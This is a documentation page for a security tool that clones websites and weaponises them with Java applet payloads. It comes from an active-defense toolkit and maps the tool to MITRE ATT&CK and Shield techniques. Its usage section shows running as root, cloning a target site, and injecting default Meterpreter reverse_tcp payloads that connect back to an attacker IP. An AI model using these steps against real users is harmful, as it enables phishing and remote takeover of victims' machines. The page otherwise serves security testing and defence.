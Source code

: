Java Applet Web Attack
======================

Website
-------

<https://github.com/adhdproject/java-web-attack>

Description
-----------

This project aims to break out the Java Applet Web Attack method from the Social Engineering Toolkit into a standalone tool.

MITRE Shield
------------

Associated MITRE ATT&CK techniques:
* T1059 - Command and Scripting Interpreter ??
* T1583 - Acquire Infrastructure (to host java applet)
* T1587 - Develop Capabilities
* T1588 - Obtain Capabilities

Applicable MITRE Shield techniques to counter:
* [DTE0034](https://shield.mitre.org/techniques/DTE0034) - System Activity Monitoring
* [DTE0032](https://shield.mitre.org/techniques/DTE0032) - Security Controls
* [DTE0017](https://shield.mitre.org/techniques/DTE0017) - Decoy System
* [DTE0022](https://shield.mitre.org/techniques/DTE0022) - Isolation
* [DTE0018](https://shield.mitre.org/techniques/DTE0018) - Detonate Malware

Install Location
----------------

`/opt/java-web-attack/`

Usage
-----

NOTE: You will want to run all of the commands in this tutorial as root.  To become root run the command `sudo su -`.

`~#` **`cd /opt/java-web-attack`**

`/opt/java-web-attack#` **`./clone.sh <url to clone>`**

`/opt/java-web-attack#` **`./weaponize.py -h`**

        Usage:
          ./weaponize.py [-w <payload>] [-l <payload>] [-m <payload>] <html_file> <ip>
          ./weaponize.py -h

        Options:
          -h            Shows this help message.
          -w            Specifies the Windows payload to use. [default: windows/meterpreter/reverse_tcp]
          -l            Specifies the Linux payload to use. [default: linux/x86/meterpreter/reverse_tcp]
          -m            Specifies the Mac OS X payload to use. [default: osx/x86/shell_reverse_tcp]
          <payload>     The payload string as expected by msfvenom. Run `msfvenom -l payloads` to see all choices.
          <html_file>   The HTML file to insert the Java payload.
          <ip>          The IP address the payload should connect back to.
